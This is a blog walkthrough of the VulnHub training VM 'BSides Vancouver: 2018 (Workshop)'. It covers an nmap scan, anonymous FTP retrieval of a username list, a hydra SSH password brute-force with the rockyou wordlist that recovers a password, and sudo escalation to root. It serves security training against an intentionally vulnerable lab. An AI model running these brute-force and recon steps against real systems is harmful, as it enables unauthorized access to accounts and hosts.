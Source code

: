 ```yaml
---
layout: post
date: 2018-06-22 06:52:37 +0000
last_modified_at: 2018-06-27 11:03:32 +0000
title: "BSides Vancouver: 2018 (Workshop) Walkthrough"
subtitle: "A Vibrant Melting Pot"
category: Walkthrough
tag: [VulnHub, "BSides Vancouver"]
comments: true
image:
  feature: bsides-vancouver-2018-workshop-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/kermit-workshop-coffee-break-pliers-2091951/
---
```


This post documents the easiest walkthrough of BSides Vancouver: 2018 (Workshop), a boot2root [VM][1] created by [abatchy][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This VM aims to create a safe environment to perform real-world penetration testing on an intentionally vulnerable target. As the name implied, the VM appeared as course material in a workshop during 2018 BSides Vancouver.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03 17:52 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.30.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

`nmap` finds `21/tcp`, `22/tcp`, and `80/tcp` open. None of the services are vulnerable to any remote code execution attacks right off the bat. Let's explore the `ftp` service next since we can log in anonymously.

### FTP Service

There's a file `users.txt.bk` in the `public` directory—it contains usernames.

```
# cat users.txt.bk
abatchy
john
mai
anne
doomguy
```
### SSH Service

If I've to guess, these are probably users with an account in the target. Let's find out.

![SSH Login](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.jlutahztgc.png)

As you can see, `anne` is the sole account that can login via SSH with a password. This calls for a brute-force attack.

### Hail Hydra

For online brute-force attack, I like to use `hydra` and the **rockyou** wordlist. Here's the command.

```
# hydra -l anne -P /usr/share/wordlists/rockyou.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.129
[22][ssh] host: 192.168.30.129   login: anne   password: princess
```

### SSH Access

I don't believe it—this is way too easy.

![SSH Access](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.dovkhr1yz8s.png)

### Privilege Escalation

Guess what? `anne` is able to `sudo` as `root`.

![sudo](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.6pu5qdr84a.png)

### Eyes on the Prize

I got my eyes on the prize.

![flag.txt](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.m2ls023yfbf.png)

### Afterthought

Admittedly, this VM is not too difficult since it's targeting delegates attending the workshop. That's also the reason why there are other ways to gain remote access and `root`ing the VM because the instructor would then cover other attack surfaces like WordPress and/or kernel exploit during the workshop.

[1]: https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/
[2]: https://twitter.com/@abatchy17
[3]: https://www.vulnhub.com

